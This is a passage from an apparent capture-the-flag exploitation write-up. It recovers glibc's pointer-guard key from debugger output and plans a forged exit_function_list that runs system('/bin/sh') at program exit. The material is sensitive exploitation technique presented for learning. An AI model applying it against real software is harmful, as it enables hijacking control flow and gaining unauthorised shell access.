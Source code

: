 ```
gef➤  p __exit_funcs
$1 = (struct exit_function_list *) 0x7fb9c582e1a0 <initial>
gef➤  x/20g 0x7fb9c582e1a0
0x7fb9c582e1a0 <initial>: 0x0 0x1
0x7fb9c582e1b0 <initial+16>:  0x4 0x855e78812a3aaf91
0x7fb9c582e1c0 <initial+32>:  0x0 0x0
0x7fb9c582e1d0 <initial+48>:  0x0 0x0
0x7fb9c582e1e0 <initial+64>:  0x0 0x0
0x7fb9c582e1f0 <initial+80>:  0x0 0x0
0x7fb9c582e200 <initial+96>:  0x0 0x0
0x7fb9c582e210 <initial+112>: 0x0 0x0
0x7fb9c582e220 <initial+128>: 0x0 0x0
0x7fb9c582e230 <initial+144>: 0x0 0x0
gef➤  p _dl_fini
$2 = {void (void)} 0x7fb9c59c7d30 <_dl_fini>
gef➤  p __pointer_chk_guard_local
$3 = 0x57c8bd16f9dce82d
```

Python3 math:

```
>>> hex(((shift_right_carry(0x855e78812a3aaf91, 0x11)) ^ 0x7fb9c59c7d30))
'0x57c8bd16f9dce82d'
```

That is how we will figure out the `__pointer_chk_guard_local` key.

Now the last thing we will need to figure out, is the `exit_function_list` structure which we will use in order to execute (`system("/bin/sh")`). For the `next` ptr, I'll just have it be `0x00`, so there is no null ptr. For `idx`, I will just have it be `0x01`, since there is only one `exit_function` I care to execute.

After that, we have the `exit_function` which we will have. We will need a `flavor` value, the mangled instruction ptr, the argument ptr, and the `dso_handle`. For the `flavor` value, I want it to be the `cxa` type, but what is the actual integer `enum` value for that?

```
enum
{
  ef_free,  /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};
```

Looking at the enum where `ef_cxa` is established, we see it is the fifth entry. As part of the C language, the first enum `ef_free` will be `0`. The second `ef_us` will be `1`, the third `ef_on` will be two, and so on and so forth. So the fifth one `ef_cxa` (the one we want) will be `4`.

For the instruction ptr, we will just use the mangled instruction ptr for `system` in libc, with the argument being the `"/bin/sh"` string present in `libc`. For `dso`, I will just have it be a null ptr (not too sure what the dso handle is used for, google says it's for shared object files).
